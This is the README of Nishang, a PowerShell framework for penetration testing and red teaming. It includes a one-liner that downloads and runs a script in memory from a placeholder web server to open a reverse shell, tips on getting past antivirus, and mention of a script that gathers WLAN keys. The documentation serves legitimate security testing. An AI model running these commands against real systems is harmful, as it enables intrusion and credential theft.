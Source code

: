 # Nishang

### Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.
By [nikhil_mitt](https://twitter.com/nikhil_mitt)

#### Usage

Import all the scripts in the current PowerShell session (PowerShell v3 onwards).

PS C:\nishang> Import-Module .\nishang.psm1

Use the individual scripts with dot sourcing.

PS C:\nishang> . C:\nishang\Gather\Get-Information.ps1

PS C:\nishang> Get-Information

To get help about any script or function, use:

PS C:\nishang> Get-Help [scriptname] -full

Note that the help is available for the function loaded after running the script and not the script itself since version 0.3.8. In all cases, the function name is same as the script name.

For example, to see the help about Get-WLAN-Keys.ps1, use

PS C:\nishang> . C:\nishang\Get-WLAN-Keys.ps1

PS C:\nishang> Get-Help Get-WLAN-Keys -Full

#### Anti Virus
Nishang scripts are flagged by many Anti Viruses as malicious. The scripts on a target are meant to be used in memory which is very easy to do with PowerShell. Two basic methods to execute PowerShell scripts in memory:

Method 1. Use the in-memory dowload and execute:
Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.

powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]

Method 2. Use the -encodedcommand (or -e) parameter of PowerShell
All the scripts in Nishang export a function with same name in the current PowerShell session. Therefore, make sure the function call is made in the script itself while using encodedcommand parameter from a non-PowerShell shell. For above example, add a function call (without quotes) "Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]".

Encode the scrript using Invoke-Encode from Nishang:

PS C:\nishang> . \nishang\Utility\Invoke-Encode

PS C:\nishang> Invoke-Encode -DataToEncode C:\nishang\Shells\Invoke-PowerShellTcp.ps1 -OutCommand
